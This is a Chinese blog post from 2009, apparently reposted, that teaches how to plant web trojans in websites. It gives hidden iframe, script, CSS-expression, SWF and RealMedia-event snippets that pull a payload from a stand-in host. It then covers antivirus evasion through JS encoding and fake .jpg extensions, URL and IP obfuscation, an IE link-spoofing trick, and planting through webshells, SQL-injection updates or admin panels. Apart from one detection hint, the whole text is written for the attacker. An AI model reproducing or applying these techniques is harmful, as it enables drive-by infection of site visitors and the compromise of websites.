 ```yaml
---
title: 详解挂马方法和技巧
description: 1.挂马的N种方法(1)HTML挂马法。常规的HTML挂马方法一般是在网页中插入一条iframe语句，像
date: 2009-03-06 11:27:29
category: 技术文章
tags: ['技术类', '技巧', 'iframe']
post_id: 805
alias: xiangjie-guama-fangfa-jiqiao
ViewNums: 5101
---
```


**1.挂马的N种方法**

(1) [HTML挂马法](/blog/xiangjie-guama-fangfa-jiqiao)。
常规的HTML挂马方法一般是在网页中插入一条iframe语句，像
```html
<iframe src=http://www.xxx.com/horse.html width=0 height=0></iframe>
```
。查看站点是否被挂，一般是查找一下关键词iframe。

(2) 再隐藏一点的就是[js挂马](/blog/xiangjie-guama-fangfa-jiqiao)了。
像再原来的网页中写入
```html
<script str=http://www.xxx.com/horse.js></script>，horse里的js写法一般为 document.write(’http://www.xxx.com/horse.html’>;，或者专业一点的写法是 top.document.body.innerHTML  = top.document.body.innerHTML + ‘
<iframe src=”http://www.xxx.com/horse.htm/”></iframe>’;
```

。不过第2种写法要注意：是原来的网页种要有body标签。

(3) 在 [css中挂马](/blog/xiangjie-guama-fangfa-jiqiao)。
这个方法就是在css中写入：
```css
body {
hytop:expression(top.document.body.innerHTML = top.document.body.innerHTML + ‘
< iframe src=”http://www.xxx.com/horse.html/”></>’);
}
```
然后在主页中调用这个CSS，代码类似
```html
<link href=”http://www.7747.net/css.css” rel=”stylesheet” type=”text/css”>
```
这样的。在csdn 中对expression的解释是：IE5及其以后版本支持在CSS中使用expression，用来吧CSS属性和Javascript表达式关联起来，这里的CSS属性可以是元素固有的属性，也可以是自定义属性。也就是说CSS属性后面可以是一段Javasccript表达式，CSS属性的值等于 Javascript表达式计算的结果。在表达式中可以是直接一用元素自身的属性和方法，也可以使用其它浏览器对象。这个表达式就好像是在这个元素的一个成员函数中一样。整个解释关键点是expression可以在css中引入js语句，所以我们可用于挂马。不过写的语句值可以远程调用，本地不可以。

(4) 在swf中挂马
网上有一些[swf挂马](/blog/xiangjie-guama-fangfa-jiqiao)的工具，可以用工具替换原来网页中的swf或单独把swf发给对方，一可以单独作一个可显示swf页的网页。在网页中插入swf的语法一般格式为：
```html
<OBJECT classid=clsid:D27CDB6E-AE6D-11cf-96B8-444553540000 codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=5.0.0.0 WIDTH=760 NAME=quality VALUE=high> <EMBED src=”http://www.7747.net/xxx.swf” quality=high pluginspage=http://www.macromedia.com/shockwave/download/index.cgi?P1_Prod_Version=ShockwaveFlash type=application/x-shockwave-flash width=760 height=60></EMBED></OBJECT>
```
(5) 在影音文件中挂马。
所需工具是RealMedia Editor，打开工具后，然后依次选择“文件”－“打开Real媒体文件”，然后选择需要编辑的视频文件，其格式必须是RealOne公司的以RM或 RMVB为扩展名的文件。接着，新建一个文本，在里面输入u 00:00:10:0 00:00:30.0&&_rpexternal&&http://www.xxx.com/horse.htm
(00:00:10.0就是发生第一事件的时间，这里是让计算机弹出网页；00:00:30.0同样，这是第二次发生的时间，在0时0分第30秒0微妙时弹出窗口；而后面的URL地址就是连接指定的木马地址。)
输入完毕后并保存，然后依次选择“工具”－“合并事件”，导入刚才的文本。当合并完成后，依次选择“文本”－“Real文件另存为”，保存好即可。
最后把生成的视频文件发布网上，当对方观看同时就会连接到你指定的木马地址。

**2.挂马的技巧**

挂马首先要求的是隐蔽性，这样挂的时间才能长。像在SWF、JS、RM中挂马就是比较隐蔽了，但是还可再用到些技巧。

(1)远程任意后缀执行HTML
可以把horse.html改成horse.jpg之类的后缀，然后语句写成
```html
<iframe src=/uploadfile/200902/20090220105353594.jpg width=0 height=0></iframe>
```
。js也可以，语句为
```html
<script src=/uploadfile/200902/20090220105353594.jpg></script>
```
，甚至js的不要后缀名都可以。

(2)JS的加密
为了保护网页木马的代码，可以把JS内容加密，还能躲开杀软的作用。如果使用ENCODE加密方式，加密后的JS调用语句就用< script language=”jscript”.encode”src=http://www.xxx.com/horse.txt& gt;</script>。除此方法外，还有其它更多的方法！

(3)URL的变形
URL的变形方法也有很多，例如将url的16进制转换为encod编码等。如果是涉及到URL欺骗的方法就更多了，不过多数的URL欺骗，像利用@的技巧，IE都已经打补丁了。但现在有个漏洞仍然有效，代码如下：
```html
<a id=”CZY” href=”http://www.baidu.com”></a>
<div>
<a href=”http://www.google.cn” target=”_blank”>
<table>
<caption>
<a href=”http://www.google.cn” target=”_blank”>
<label for=”CZY”>
<u style=”cursor: pointer: color: blue”>
Google</u>
</label></a></caption></table></a></div>
```
保存该代码为网页后，鼠标移动到Google这个链接上时，IE状态栏显示的是http://www.google.cn，但点击链接后却打开http: //www.baidu.com网站。如果你的网马可以用IP地址访问到的话，IP地址也可以进行转换的。像127.0.0.1这样的IP还可以变为 2130706433、0×7f.0×00.0×00.0×01、0177.0000.0000.0001等等，这只不过是8进制、10进制、16进制、的转换而已。

**3.如何才能挂到马**
拿到了webshell的话，[挂马](/blog/xiangjie-guama-fangfa-jiqiao)自然是很简单了。但是拿不到的情况下，如果注入点有update权限，我们可以仔细查找首页中的某条新闻的调用链接，然后update数据库达到我们的目的。如果可进入后台，我没就可以在一些发公告的地方写入自己的木马代码（不过千万别打乱前台html源文件里的代码逻辑）。


